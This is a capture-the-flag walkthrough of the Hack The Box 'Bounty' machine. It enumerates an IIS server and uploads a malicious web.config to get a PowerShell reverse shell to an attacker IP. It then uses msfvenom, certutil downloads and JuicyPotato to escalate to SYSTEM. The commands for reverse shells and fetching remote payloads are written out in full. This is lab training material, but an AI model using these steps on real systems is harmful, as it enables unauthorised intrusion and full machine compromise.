# [Bounty](https://app.hackthebox.com/machines/bounty)

```bash
nmap -p- --min-rate 10000 10.10.10.93 -Pn
```

![Alt text](img/image.png)


After discovering one port (80), I can do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.93 -Pn 
```

![Alt text](img/image-1.png)

Directory enumeration, due to Microsoft IIS Server, I put '.aspx' and '.asp' file extensions.


```bash
gobuster dir -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x aspx,asp,txt

```

![Alt text](img/image-9.png)

I see 'transfer.aspx' file on this location, it is that we can upload images or some stuff.

But I tried, it **doesn't allow '.aspx' files** that I can upload malicious reverse shell.


But after enumeration (via **Intruder**), it allows '.config' files. That's why we can upload .config files with malicious reverse shell command.

That's [web.config](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config) file, and I configured this file as below.

![Alt text](img/image-2.png)


Then, I add reverse shell into 'Invoke-PowerShellTcp.ps1' file as below.

```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.8 -Port 1337" >> Invoke-PowerShellTcp.ps1

```

![Alt text](img/image-3.png)


Now, I open http.server on location where 'Invoke-PowerShellTcp.ps1' is located.

![Alt text](img/image-6.png)



Once we upload file and browse.

![Alt text](img/image-4.png)

![Alt text](img/image-5.png)


My reverse shell works as below.

```bash
rlwrap nc -lnvp 1337
```

![Alt text](img/image-7.png)


While on desktop of 'merlin' user, I cannot find flag as because it is hidden.

That's why I use below command.

```bash
gci -force  # Get-ChildItem by force
```

user.txt


![Alt text](img/image-8.png)


While I run `whoami /priv` command and I see most dangerous privileges which is called 'SeImpersonatePrivilege'.

![Alt text](img/image-10.png)


That's JuicyPotato vulnerability. You can get this malicious executable from [here](https://github.com/ohpe/juicy-potato/releases).

Then we need to generate malicous reverse shell file via `.bat` extension by using `msfvenom` command.

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.8 lport=1338 > dr4ks.bat
```

![Alt text](img/image-11.png)


Now we have 'dr4ks.bat' and 'JuicyPotato.exe' file, let's upload these into target machine.

```bash
certutil -urlcache -split -f "http://10.10.16.8:8080/JuicyPotato.exe" C:\Users\merlin\Desktop\JuicyPotato.exe

certutil -urlcache -split -f "http://10.10.16.8:8080/dr4ks.bat" C:\Users\merlin\Desktop\dr4ks.bat

```

![Alt text](img/image-12.png)

![Alt text](img/image-13.png)


These files comes from this http.server.

![Alt text](img/image-14.png)


Let's execute our payload.

```bash
./JuicyPotato.exe -p dr4ks.bat -l 1338 -t *
```

![Alt text](img/image-15.png)


I got reverse shell from port (1338) which I created while creation of 'dr4ks.bat' file.

![Alt text](img/image-16.png)


root.txt

![Alt text](img/image-17.png)